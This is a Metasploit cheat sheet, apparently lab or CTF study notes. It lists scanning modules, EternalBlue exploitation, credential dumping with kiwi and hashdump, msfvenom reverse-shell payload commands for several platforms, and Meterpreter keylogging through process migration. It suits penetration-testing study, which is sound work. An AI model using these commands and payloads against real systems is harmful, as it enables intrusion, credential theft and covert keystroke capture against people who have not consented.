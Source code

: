 # Metasploit

> Shahrukh Tramboo | February 3rd, 2022

--------------------------------------

**Scanning**

1.	Port Scanning:

```bash
search portscan
```

2.	UDP service Identification:

The
```bash
scanner/discovery/udp_sweep
```
module will allow you to quickly identify services running over the UDP (User Datagram Protocol).

3.	SMB Scans:

Especially useful in a corporate network would be 

```bash
scanner/smb/smb_enumshares 
```
and
```bash
scanner/smb/smb_version
```

---------------------------------------------

**Exploitation**

For this service: Windows 7 Professional 7601 Service Pack 1 x64 (64-bit), Use this exploit:windows/smb/ms17_010_eternalblue with this payload:generic/shell_reverse_tcp.

Metasploit payloads can be initially divided into two categories; inline (also called single) and staged.
staged payloads are sent to the target in two steps.
An initial part is installed (the stager) and requests the rest of the payload. This allows for a smaller initial payload size.
The inline payloads are sent in a single step.

---------------------------------------------


**Post Exploitation**

Metasploit offers Mimikatz and Kiwi extensions to perform various types of credential-oriented operations, such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and much more.

Windows
```bash
meterpreter> load kiwi
creds_all
hashdump
```

Linux
```bash
msf6> use post/linux/gather/hashdump
```

Windows
```bash
msf6> use post/windows/gather/enum_shares
```


------------------------------------------------

**MSFVenom**

Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Encoders:

The example below shows the usage of encoding (with the -e parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
```
------------------------------------------------------

**Meterpreter Payload**

Linux Executable and Linkable Format (elf)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
````

Windows
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

Python
```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

Meterpreter payloads are also divided into stagged and inline versions. However, Meterpreter has a wide range of different versions you can choose from based on your target system. 

```bash
msfvenom --list payloads | grep meterpreter
```

---------------------------------------------------------

**Meterpreter Commands**

background:	 	Backgrounds the current session
exit:	 		Terminate the Meterpreter session
guid:	 		Get the session GUID (Globally Unique Identifier)
help:	 		Displays the help menu
info:	 		Displays information about a Post module
irb:	 		Opens an interactive Ruby shell on the current session
load:	 		Loads one or more Meterpreter extensions
migrate:	 	Allows you to migrate Meterpreter to another process
run:	 		Executes a Meterpreter script or Post module
sessions:	 	Quickly switch to another session

use help cpmmand to get more

getuid:	The getuid command will display the user with which Meterpreter is currently running. This will give you an idea of your possible privilege level on the target system (e.g. Are you an admin level user like NT AUTHORITY\SYSTEM or a regular user?)

ps:	The ps command will list running processes. The PID column will also give you the PID information you will need to migrate Meterpreter to another process.

migrate: Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process.
Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.
```bash
migrate 716
```

Hashdump: The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

Search:	The search command is useful to locate files with potentially juicy information. In a CTF context, this can be used to quickly find a flag or proof file, 

Shell: The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.

----------------------------------------------------------





